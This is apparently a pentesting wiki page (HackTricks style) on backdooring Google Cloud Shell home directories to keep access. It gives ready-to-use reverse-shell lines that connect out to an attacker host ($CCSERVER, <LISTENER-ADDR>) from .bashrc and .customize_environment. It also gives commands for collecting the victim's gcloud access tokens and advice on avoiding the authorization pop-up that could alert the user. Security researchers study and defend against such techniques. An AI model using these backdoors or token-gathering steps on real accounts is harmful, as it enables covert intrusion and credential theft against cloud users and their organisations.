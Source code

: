 # GCP - Cloud Shell Persistence

{{#include ../../../banners/hacktricks-training.md}}

## Cloud Shell

For more information check:

{{#ref}}
../gcp-services/gcp-cloud-shell-enum.md
{{#endref}}

### Persistent Backdoor

[**Google Cloud Shell**](https://cloud.google.com/shell/) provides you with command-line access to your cloud resources directly from your browser without any associated cost.

You can access Google's Cloud Shell from the **web console** or running **`gcloud cloud-shell ssh`**.

This console has some interesting capabilities for attackers:

1. **Any Google user with access to Google Cloud** has access to a fully authenticated Cloud Shell instance (Service Accounts can, even being Owners of the org).
2. Said instance will **maintain its home directory for at least 120 days** if no activity happens.
3. There is **no capabilities for an organisation to monitor** the activity of that instance.

This basically means that an attacker may put a backdoor in the home directory of the user and as long as the user connects to the GC Shell every 120days at least, the backdoor will survive and the attacker will get a shell every time it's run just by doing:

```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```

There is another file in the home folder called **`.customize_environment`** that, if exists, is going to be **executed everytime** the user access the **cloud shell** (like in the previous technique). Just insert the previous backdoor or one like the following to maintain persistence as long as the user uses "frequently" the cloud shell:

```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```

> [!WARNING]
> It is important to note that the **first time an action requiring authentication is performed**, a pop-up authorization window appears in the user's browser. This window must be accepted before the command can run. If an unexpected pop-up appears, it could raise suspicion and potentially compromise the persistence method being used.

This is the pop-up from executing `gcloud projects list` from the cloud shell (as attacker) viewed in the browsers user session:

<figure><img src="../../../images/image (10).png" alt=""><figcaption></figcaption></figure>

However, if the user has actively used the cloudshell, the pop-up won't appear and you can **gather tokens of the user with**:

```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```

#### How the SSH connection is stablished

Basically, these 3 API calls are used:

- [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (will make you add your public key you created locally)
- [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (will make you start the instance)
- [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (will tell you the ip of the google cloud shell)

But you can find further information in [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## References

- [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
- [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
- [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

{{#include ../../../banners/hacktricks-training.md}}



